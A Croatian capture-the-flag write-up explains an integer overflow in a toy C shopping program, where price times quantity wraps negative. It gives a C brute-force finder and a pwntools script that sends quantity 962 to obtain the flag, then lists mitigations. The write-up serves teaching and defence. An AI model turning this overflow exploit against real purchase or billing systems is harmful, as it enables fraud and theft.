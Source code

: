 # Writeup

## Otkrivanje ranjivosti

Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **integer overflow** kod kupovine stvari. 

Isječak koda koji sadrži ranjivost:
```c
if(dostupneStvari[opcija-1].cijena * kolicina <= novac){
		novac-= dostupneStvari[opcija-1].cijena * kolicina;
		printf("Kupljeno: %s (%dx)\n", dostupneStvari[opcija-1].ime,kolicina);
		
		if(opcija-1 == 4){
			tajnaStvarKupljena();
		}
		
		return;
}
```
Kako bi izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` bio istinit, može se za količinu stvari _Super tajna stvar_ unijeti veliki broj koji će zbog integer overflow-a zadovoljiti izraz.

## Objašnjenje ranjivosti

Najveća moguća vrijednost varijable tipa int u C programskom jeziku je ```2 147 483 647```. Ako integer varijabla sadrži tu najveću vrijednost i inkrementira se za jedan, tada će nova vrijednost biti ```-2 147 483 648```. To se događa zbog integer overflow-a, gdje se nakon postizanja najveće moguće vrijednosti 32-bitnog int tipa (2 147 483 647) inkrementiranjem prelazi u negativni raspon zbog dvokomplementnog prikaza brojeva, gdje se najviši bit koristi za predznak broja.

Na sljedećoj slici prikazan je primjer integer overflow-a u 8-bitnom dvokomplementnom prikazu brojeva (32-bitni prikaz je sličan).

<p align="center">
 <a href="https://github.com/user-attachments/assets/cf8c8832-7cf6-407f-92f5-4d14117470fb">
  <img src="https://github.com/user-attachments/assets/cf8c8832-7cf6-407f-92f5-4d14117470fb"/>
  <a/>
<p/>


Kod dvokomplementnog prikaza brojeva, najznačajniji bit se koristi za mogućnost spremanja negativnih brojeva. U ovom primjeru, najznačajniji bit nosi vrijednost ```-128```. Ako se na vrijednost ```127``` (koja u binarnom prikazu ima sve jedinice osim najznačajnijeg bita) pribroji jedan, tada će se sve jedinice pretvoriti u nule i jedinica će se prenijeti na najznačajniji bit.

U zadatku dolazi do integer overflowa prilikom umnoška cijene i količine. Budući da su obje varijable tipa ```int```, i njihov umnožak je također tipa ```int```. Zbog ograničenja raspona ovog tipa podatka, ako je rezultat umnoška prevelik za pohranu, dolazi do integer overflow-a.

Izrađen je kratak program koji traži najmanju količinu koja kada se pomnoži s cijenom stvari _Super tajna stvar_ uzrokuje integer overflow:
```c
#include <stdio.h>

int main()
{
    int cijena = 2232350;
    int kolicina = 1;
    for(;kolicina<99999999;kolicina++){
        int ukupno = kolicina*cijena;
        
        if(ukupno<=0){
            printf("%d\n",kolicina);
            printf("%d\n",ukupno);
            break;
        }
    }

    return 0;
}
```

Izlaz programa:
```
962
-2147446596
```

Iz izlaza programa vidimo kako je najmanja količina koja uzrokuje integer overflow jednaka ```962```. Umnoškom cijene i količine dobi se ```-2 147 446 596```

Izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` postaje ```-2 147 446 596 <= novac```. Pošto je ```novac``` uvijek veći ili jednak nuli, izraz postaje uvijek istinit.


## Iskorištenje ranjivosti

Za izradu rješenja može se napraviti Python skripta koja iskorištava integer overflow ranjivost u zadatku. Skripta koristi ```pwntools``` biblioteku za interakciju s kompajliranim programom, omogućujući slanje podataka i primanje odgovora od procesa pokrenutog programa. Nakon pokretanja programa, skripta odabire opciju kupnje stvari (3), zatim bira stvar _Super tajna stvar_ (5) i na kraju šalje količinu koja  uzrokuje integer overflow (962).

```python
from pwn import *

io = process("./kupovina") #da možemo slati i primati podatke od procesa
elf = ELF("./kupovina") #omogucava pwntools-u da može procitati gdje su adrese funkcija

# = = = START

print(io.recvuntil(b"Odabir:")) #pricekaj ovaj output, pa zatim nastavi
# b ispred stringa veli pythonu da on string tretira kao bytove i pwntools očekuje podatke u obliku bajtova
# python koristi UTF-8 stringove pa dolaze upozorenja ako se ne koristi b

io.sendline(b"3") #biranje opcije 3

print(io.recvuntil(b"Odaberite stvar koju zelite kupiti (0 za izlaz):")) 
io.sendline(b"5") #biranje opcije 5

payload = b""
payload += b"962"

# = = = END

io.sendline(payload) #slanje exploita
print(payload)

io.interactive() #prebacuje stdin i stdout na standardni ulaz i izlaz, vraća kontrolu korisniku (terminalu)

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[1nt3ger_0VERFL0W]```.

## Edukativne smjernice
- _Integer overflow_ je ranjivost kod koje se pri aritmetičkim operacijama (npr. zbrajanju i množenju) prekorači maksimalna vrijednost u varijabli tipa _int_, pa rezultat preleti u negativni raspon i može prevariti logiku usporedbe.
- Za zaštitu od ove vrste napada preporučuje se:
  - Prije računanja provjeriti hoće li ```cijena * količina``` ostati unutar valjanog raspona.
  - Uvesti ograničenja na ulazne brojeve (maksimalna količina) kako bi se spriječile ekstremne vrijednosti.
  - Koristiti veće tipove podataka (npr. long) kad su vrijednosti velike.
